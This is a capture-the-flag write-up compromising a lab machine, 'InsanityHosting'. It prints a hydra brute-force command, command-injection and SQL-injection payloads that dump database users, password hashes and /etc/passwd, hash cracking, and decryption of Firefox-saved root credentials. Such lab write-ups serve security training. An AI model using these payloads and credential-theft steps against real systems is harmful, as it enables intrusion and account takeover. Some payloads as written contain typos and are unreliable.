

## InsanityHosting: Writeup

Nmap scan reveals three ports open:

```bash
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.2
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:192.168.45.5
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.2 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: ERROR
22/tcp open  ssh     syn-ack OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 85464106da830401b0e41f9b7e8b319f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQtHmxxtG4ltyiTASYo7IAAQVLqSkanJ2TSG695Ta5sMaS5eixyvA8ogIMPtXm/iaHRxvCE6I+gxzUpmMD59NpmkAAPW4o0WXXMz0PDxCgUg+sYljlppG91mLyqjghPxygAbhUC4PjezCNtOV9WiiL25Nyb0BpefsFU/BT7bM0NYX3EEdvabDTe/WfE5gKG+GBj6/SOKsFa95bq6xEQrmbj96LieChT0iIkDvaAas6HBf7GPk1kVeLFAU45twWTGNEXpF0a8I+0TdXDp7tD0Gzh2DNWJE/O6c8PJ3jV6WBXXmT353S9FYzki/OxDMaGVAUZtFnSCGzxKVj5YqSWyU7
|   256 e49cb1f244f1f04bc38093a95d9698d3 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNRt3iEQF7T82T4vCGDn0qlm9hGE/D2Mzc0UTo01QD0P+6xeY2fs+0/pOuKrA+qbxHmhO5Zn/XvNgx+ay6PYbBI=
|   256 65cfb4afad8656efae8bbff2f0d9be10 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAV1K1EGNhrsQyVvPZ1zVegZIPxuXbZXoK/EU9UAjLrp
80/tcp open  http    syn-ack Apache httpd 2.4.6 ((CentOS) PHP/7.2.33)
|_http-favicon: Unknown favicon MD5: F563215CE087F2F0E494D75B81E07321
| http-methods:
|   Supported Methods: POST OPTIONS GET HEAD TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.6 (CentOS) PHP/7.2.33
|_http-title: Insanity - UK and European Servers
Service Info: OS: Unix
```

Begin with ftp. I can login anonymously. There's one directory here, `pub`, and it's empty and I can't write to it:

```bash
$ ftp 192.168.164.124
Connected to 192.168.164.124.
220 (vsFTPd 3.0.2)
Name (192.168.164.124:lemmy): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||28396|).
ftp: Can't connect to `192.168.164.124:28396': No route to host
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0               6 Apr 01  2020 pub
226 Directory send OK.
ftp> cd pub
250 Directory successfully changed.
ftp> ls
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
226 Directory send OK.
```

Likely the way in is through the web service on port 80.

I type in the IP address and get a page. At the top, I see some contact infomation that discloses a hostname: `insanityhosting.vm`: 


I'll add this to /etc/hosts.

Fuzzing the web root:

```bash
$ gobuster dir -u http://192.168.171.124/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.171.124/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/03/20 11:47:49 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 206]
/.htaccess            (Status: 403) [Size: 211]
/.htpasswd            (Status: 403) [Size: 211]
/cgi-bin/             (Status: 403) [Size: 210]
/css                  (Status: 301) [Size: 235] [--> http://192.168.171.124/css/]
/data                 (Status: 301) [Size: 236] [--> http://192.168.171.124/data/]
/fonts                (Status: 301) [Size: 237] [--> http://192.168.171.124/fonts/]
/img                  (Status: 301) [Size: 235] [--> http://192.168.171.124/img/]
/index.php            (Status: 200) [Size: 31]
/index.html           (Status: 200) [Size: 22263]
/js                   (Status: 301) [Size: 234] [--> http://192.168.171.124/js/]
/licence              (Status: 200) [Size: 57]
/monitoring           (Status: 301) [Size: 242] [--> http://192.168.171.124/monitoring/]
/news                 (Status: 301) [Size: 236] [--> http://192.168.171.124/news/]
/phpmyadmin           (Status: 301) [Size: 242] [--> http://192.168.171.124/phpmyadmin/]
/phpinfo.php          (Status: 200) [Size: 85287]
/webmail              (Status: 301) [Size: 239] [--> http://192.168.171.124/webmail/]
```

In `/data`, I see there are two files that disclose the same version number to something:


There nothing special in `/licence`:


In `/monitoring`, I get a login page:


In `/news`, I get a blog page:


There's mention of a single user, Otis:


And at the bottom, I see that it's powered by Bludit, which is a CMS:


Also, at the top, I note that there's a link to a new subdomain: `www.insanityhosting.vm`: 


I'll also add this to /etc/hosts.

Fuzzing this new endpoint I find `/admin`, which redirects to login page for Bludit:

```bash
$ gobuster dir -u http://www.insanityhosting.vm/news -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://www.insanityhosting.vm/news
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/03/21 10:49:37 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 211]
/.htaccess            (Status: 403) [Size: 216]
/.htpasswd            (Status: 403) [Size: 216]
/0                    (Status: 200) [Size: 5111]
/admin                (Status: 301) [Size: 0] [--> http://www.insanityhosting.vm/news/admin/]
/cgi-bin/             (Status: 301) [Size: 0] [--> http://www.insanityhosting.vm/news/cgi-bin]
/LICENSE              (Status: 200) [Size: 1083]
/robots.txt           (Status: 200) [Size: 22]
/welcome              (Status: 200) [Size: 4514]
```


I can verify that the `/news` endpoint maps onto the Bludit directory structure by fuzzing using the directories provided [here](https://docs.bludit.com/en/developers/folder-structure):

```bash
$ gobuster dir -u http://www.insanityhosting.vm/news -w bludit_directories.txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://www.insanityhosting.vm/news
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                bludit_directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/03/21 11:01:38 Starting gobuster in directory enumeration mode
===============================================================
/bl-languages         (Status: 301) [Size: 256] [--> http://www.insanityhosting.vm/news/bl-languages/]
/bl-content           (Status: 301) [Size: 254] [--> http://www.insanityhosting.vm/news/bl-content/]
/bl-kernel            (Status: 301) [Size: 253] [--> http://www.insanityhosting.vm/news/bl-kernel/]
/bl-themes            (Status: 301) [Size: 253] [--> http://www.insanityhosting.vm/news/bl-themes/]
```

Note that they all redirect to the `www.insanityhosting.vm` subdomain.

Checking out `/webmail`, it's a login for SquirrelMail version 1.4.22:



I have a potential username and some login pages to try and brute force passwords. Something to note here is that not all login pages are equally good to password spray. For example, if I attempt use Intruder in Burpsuite to brute force the password field in the Bludit login page, I only get 301 responses, which provide no feedback as to whether an attempt succeeded or failed:


If I try this on the SquirrelMail login page, a failed login responds with "ERROR: Unknown user or password incorrect", which is something to work with:


I'll use `hydra` to brute force the password in the SquirrelMail login screen. Importantly, if I use "ERROR" as the indication that the login failed, I do not find the password. If I use "Unknown user or password incorrect", then it works:
```bash
# using "ERROR"
$ hydra -l otis -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-10.txt insanityhosting.vm http-post-form '/webmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Error'
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-03-21 11:16:45
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 92 login tries (l:1/p:92), ~6 tries per task
[DATA] attacking http-post-form://insanityhosting.vm:80/webmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Error
[STATUS] 64.00 tries/min, 64 tries in 00:01h, 28 to do in 00:01h, 16 active
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-03-21 11:18:36

# using "Unknown user or password incorrect"
$ hydra -l otis -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-10.txt insanityhosting.vm http-post-form '/webmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect'
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-03-21 11:19:00
[DATA] max 16 tasks per 1 server, overall 16 tasks, 92 login tries (l:1/p:92), ~6 tries per task
[DATA] attacking http-post-form://insanityhosting.vm:80/webmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect
[80][http-post-form] host: insanityhosting.vm   login: otis   password: 123456
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-03-21 11:19:08
```

Testing out these creds (`Otis:123456`) on the login pages I've found, they work for the login page at SquirrelMail and http://insanityhosting.vm/monitoring endpoints, but not Bludit login page.

There's no email in Otis's inbox.

In `/monitoring`, it appears the functionality is to ping a host and see if the server is up or not. If it isn't up, it will send an email notifying the down status, which is how the webmail endpoint is connected to this web app. Currently it is set to ping the target's localhost. I can add my IP and I get a hit:


```bash
$ sudo tcpdump -ni tun0 icmp
[sudo] password for lemmy:
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
11:26:04.568283 IP 192.168.164.124 > 192.168.45.5: ICMP echo request, id 4569, seq 1, length 64
11:26:04.568312 IP 192.168.45.5 > 192.168.164.124: ICMP echo reply, id 4569, seq 1, length 64
```

Testing for command injection if this is `ping` running, I change `lemmy` to `; whoami #`. Nothing happens, but if I try to modify the same entry again, I simply get a page that says "Error":


Some of the characters I used are special characters for SQL, so maybe there is SQLi here.

If I add `; whoami #` as its own entry with an IP the target can't reach, it fails to add. If I make it `lemmy; whoami #`, then it works:


I get a Warning email in Otis's inbox saying that the host is down with some comma separated values, suggesting that SQL is running in the background:


If I try `lemmy' or 1=1 #`, nothing special happens:


If I use double-quotes instead of single quote, then all the entries are printed in the subsequent Warning email:


So this is SQLi and the task is to enumerate the database through the results in the Warning emails. Here are the tests I ran:

`test" union select 1,2,database(),4 #`


So the current database is `monitoring`.

`test" union select 1,2,table_name,4 FROM information_schema.tables WHERE table_schema=database() #`


This means the current table names in the `monitoring` database are:

```
hosts
log
users
```

`test" union select 1,2,column_name,4 FROM information_schma.columns WHERE table_name='users' #`


The column names of the table `users` are as follows:

```
id
username
password
email
```

Fetching the `username` and `password` values like so:

`test" union select 1,username,password,4 FROM users #`


Unfortunately, only `otis` is crackable with `rockyou.txt` and we already knew this password:

```bash
$ john --wordlist=/usr/share/wordlists/rockyou.txt hashes
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 4096 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
123456           (otis)
```

Let's see what other users are on the host machine by reading `/etc/passwd`:

`test" union all select 1,2,LOAD_FILE('/etc/paswd'),4 #`


Here are the users in `/home`:

```bash
$ cat passwd| grep home
admin:x:1000:1000::/home/admin:/bin/bash
otis:x:1001:1001::/home/otis:/sbin/nologin
nicholas:x:1002:1002::/home/nicholas:/bin/bash
elliot:x:1003:1003::/home/elliot:/bin/bash
monitor:x:1004:1004::/home/monitor:/bin/bash
```

Earlier, I tried to access the configuration files for Bludit, which can be found in `/news/bl-content/`:


However, they were inaccessible then. Since I can now read files with SQLi, let's check them out:

`test" union all select 1,2,LOAD_FILE('var/www/html/news/bl-content/databases/users.php'),4 #`


Unfortunately, this hash is salted and not crackable with `rockyou.txt` that I could tell.

I'll now try for the password hashes in the `mysql` database:

`test" union all select user,password,3,4 FROM mysql.user #`


All I get is root's hash, which is also not crackable. However, note that elliot has an entry, though not in the password field. Checking the `mysql` tables, it looks like this is the `authentication_string` field:


Dumping this field for all users in `mysql`:

`test" union all select user,authentication_string,3,4 FROM mysql.user #`


I get this hash:

`elliot:*5A5749F309CAC33B27BA94EE02168FA3C3E7A3E9`

This hash is crackable with `rockyou.txt`:

```bash
$ john --wordlist=/usr/share/wordlists/rockyou.txt elliot.hash
Using default input encoding: UTF-8
Loaded 1 password hash (mysql-sha1, MySQL 4.1+ [SHA1 256/256 AVX2 8x])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
elliot123        (?)
1g 0:00:00:00 DONE (2023-03-20 14:04) 50.00g/s 6619Kp/s 6619Kc/s 6619KC/s elmo19..ellie04
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Since elliot is on the target, let's see if I can login through ssh. It works:

```bash
$ ssh elliot@192.168.171.124
The authenticity of host '192.168.171.124 (192.168.171.124)' can't be established.
ED25519 key fingerprint is SHA256:eCrkU/pjlo8f7sNUU6/DASra4biW9OuKmWxQptyXBdw.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.171.124' (ED25519) to the list of known hosts.
elliot@192.168.171.124's password:
[elliot@insanityhosting ~]$ whoami
elliot
[elliot@insanityhosting ~]$ id
uid=1003(elliot) gid=1003(elliot) groups=1003(elliot)
```

Collect `local.txt`:

```bash
[elliot@insanityhosting ~]$ hostname
insanityhosting.vm
[elliot@insanityhosting ~]$ hostname -I
192.168.171.124
[elliot@insanityhosting ~]$ cat local.txt
b8d2e498c0de9920e9b73aab0e0bfbfe
```


Inside elliot's home directory, I find `.mozilla`, which indicates that some Firefox profiles are stored here. I archived them with `tar`, transferred them to my machine with `scp`, then decrypted the creds with [firefox_decrypt](https://github.com/unode/firefox_decrypt):

```bash
$ ~/hacking/tools/firefox_decrypt/firefox_decrypt.py .
2023-03-20 14:31:04,045 - WARNING - profile.ini not found in .
2023-03-20 14:31:04,045 - WARNING - Continuing and assuming '.' is a profile location

Website:   https://localhost:10000
Username: 'root'
Password: 'S8Y389KJqWpJuSwFqFZHwfZ3GnegUa'
```

Back on the target, `su` to root with this password:

```bash
[elliot@insanityhosting firefox]$ su root
Password:
[root@insanityhosting firefox]# cd /root
[root@insanityhosting ~]# cat proof.txt
ffffd56581648e120dd96240731c6fc2
```